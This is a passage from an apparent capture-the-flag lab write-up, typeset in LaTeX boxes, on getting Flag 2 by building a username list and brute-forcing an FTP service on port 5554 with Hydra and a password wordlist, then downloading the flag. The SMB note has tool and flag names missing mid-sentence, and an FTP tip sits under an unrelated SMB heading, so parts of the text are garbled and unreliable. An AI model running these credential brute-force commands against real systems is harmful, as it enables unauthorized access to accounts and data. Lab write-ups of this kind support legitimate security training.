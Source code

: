 \begin{checkbox}

\begin{takebox}

\begin{notebox}
Some targets only respond to SMBv2 or SMBv3. If  connects
without the  flags and the connection hangs or fails, add the
 options to force the correct version.
\end{notebox}



\section*{Flag 2 --- FTP Brute-Force Using Hint from Flag 1}

Flag 1 contained a hint pointing to specific usernames related to FTP. I built
a custom user list from the hint and brute-forced FTP.

\end{takebox}

\begin{termbox}
# Create user list from names in the hint
echo "username1" > /root/user.txt
echo "username2" >> /root/user.txt

# Brute-force FTP (note: non-standard port 5554)
hydra -L /root/user.txt \
      -P /root/Desktop/wordlists/unix_passwords.txt \
      ftp://target.ine.local -s 5554

# Login with found credentials
ftp target.ine.local 5554
# Enter username and password at prompt
ls
get flag2.txt
exit
cat flag2.txt
\end{termbox}

\begin{notebox}[SMB protocol version flags]

\begin{notebox}
FTP may not respond immediately after Hydra finishes brute-forcing. The service
rate-limits connections briefly. Wait a moment before manually connecting.
\end{notebox}


\end{notebox}
\end{checkbox}
